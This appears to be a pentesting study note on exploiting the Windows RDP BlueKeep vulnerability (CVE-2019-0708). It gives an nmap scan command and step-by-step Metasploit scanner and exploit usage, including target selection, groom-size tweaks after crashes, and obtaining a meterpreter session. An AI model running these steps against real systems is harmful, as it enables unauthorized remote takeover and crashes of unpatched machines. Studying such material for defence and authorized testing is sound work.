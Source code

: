 # Exploiting RDP: BlueKeep
> This is an inherent vulnerability within RDP that can allow us to gain access via, for example, a meterpreter shell.

## Contents
- [Intro](#intro)
  - [CVE-2019-0708 - BlueKeep](#cve-2019-0708---bluekeep)
  - [Problem](#problem)
  - [Vulnerable Systems](#vulnerable-systems)
  - [The BlueKeep Exploit](#the-bluekeep-exploit)
- [Exploit](#exploit)
  - [1. Scan](#1-scan)
  - [2. MSF: BlueKeep](#2-msf-bluekeep)

## Intro

### CVE-2019-0708 - BlueKeep
- BlueKeep (CVE-2019-0708) is the name given to an RDP vulnerability in Windows that could potentially allow attackers to remotely execute arbitrary code and gain access to a Windows system and consequently the network that the target system is a part of.
- The BlueKeep vulnerability was made public by Microsoft in May 2019.
- The BlueKeep exploit takes advantage of a vulnerability in Windows RDP protocol that allows attackers to gain access to a chunk of kernel memory consequently allowing them to remotely execute arbitrary code at the system level without authentication.

### Problem
- Running arbitrary code and mucking around in kernel memory will likely cause a system crash.

### Vulnerable Systems
- Microsoft released a patch for this vulnerability on 05/14/2019 and has urged companies to patch this vulnerability as soon as possible.
- At the time of discovery, about one million systems worldwide were found to be vulnerabile
- The BlueKeep vulnerability affects multiple versions of Windows:
  - XP, Vista, Win7
  - Windows Server 2008 & R2

### The BlueKeep Exploit
- The BlueKeep vulnerability has various illegitimate PoC (Proof of Concepts) and exploit code could be malicious in nature. It is there recommended to only utilize verified exploit code and modules for exploitation.
- MetaSploit: 
  - **Scanner:** MSF has an auxiliary module that can be used to check if a target system is vulnerable to the BlueKeep exploit.
  - **Exploit:** MSF also also has an exploit module that can be used to exploit the vulnerability on unpatched systems. (Unpatched systems; gain a privileged meterpreter session on the target.)

## Exploit

### 1. Scan
```
nmap -sS -sV -sC -O -T4 -p- [target ip]
```
- Remember: Port 3389 (tcp) is registered for Windows Based Terminal (WBT) and Remote Desktop Protocol (RDP). 

### 2. MSF: BlueKeep
```
service postgresql status|start
msfconsole
> search BlueKeep   (should result in two: the scan and the exploit)
> use [the scanner]
> show and check options (you should only need to set RHOSTS)
> run (and you should get nice happy result back)
```
- If you get a positive result back from the scan, run the exploit...
  - Confirm the default payload is aligned with your target system (change if necessary).
  - You set the RHOSTS and run it (doesn't seem like there is anything else to set).
  - It'll likely fail and give you a warning about setting the target host manually.
  - `> show targets` : This will give you a list of Windows versions you can select to target. Find your target's system, and...
  - `set target [number of target in list]`
  - `run`
- If it fails, the target system will crash. **_And then you need to modify the `groom` size and try it again_**.
- If it works you get a meterpreter session (`sysinfo` should show you the target machine description; `getuid` should show you your privileges).
